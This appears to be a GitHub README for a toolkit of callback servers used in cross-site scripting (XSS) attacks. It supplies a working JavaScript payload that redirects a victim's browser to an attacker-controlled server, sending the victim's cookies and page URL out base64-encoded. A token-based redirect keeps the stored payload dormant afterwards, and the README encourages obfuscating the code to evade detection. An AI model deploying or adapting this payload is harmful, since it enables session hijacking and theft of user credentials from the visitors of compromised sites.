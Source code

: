 A collection of Cross-Origin callback servers for XSS exploitation.

## Description

This repo contains a range of callback servers and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which will respond with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your (stored) XSS payload to stay dormant. Refine your payload as required.

## Usage

Use your callback server of choice and make sure it's listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be, please do not open issues because it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "http://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
